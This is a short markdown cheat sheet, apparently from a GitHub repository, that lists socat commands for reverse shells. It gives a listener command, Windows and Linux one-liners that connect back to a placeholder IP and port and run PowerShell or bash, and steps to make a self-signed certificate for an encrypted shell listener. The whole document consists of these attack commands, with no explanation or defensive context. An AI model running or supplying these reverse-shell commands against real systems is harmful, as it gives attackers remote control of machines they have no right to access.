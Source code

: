 # SOCAT

### Setup listener: socat TCP-L:PORT -

### Windows: socat TCP:LOCAL_IP:LOCAL_PORT EXEC:powershell.exe,pipes

### Linux: socat TCP:LOCAL_IP:LOCAL_PORT EXEC:"bash -li"

## Encrypted shells

### 1) openssl req --newkey rsa:2048 -nodes -keyout SHELL.KEY -x509 -days 362 -out SHELL.CRT

### 2) cat SHELL.KEY SHELL.CRT > SHELL.PEM

### 3) socat OPENSSL-LISTEN:PORT,cert=SHELL.PEM,verify=0 -

